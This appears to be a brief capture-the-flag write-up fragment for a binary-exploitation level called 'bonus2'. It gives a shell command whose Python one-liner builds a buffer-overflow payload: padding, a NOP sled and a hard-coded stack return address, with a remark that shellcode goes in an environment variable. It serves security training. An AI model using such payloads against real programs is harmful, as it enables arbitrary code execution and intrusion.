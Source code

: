 ./bonus2 $(python -c 'print("aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09" + " " + "\x90"*18 + "\x01\xff\xff\xbf")') 

need to add shellcode into ENV variable.

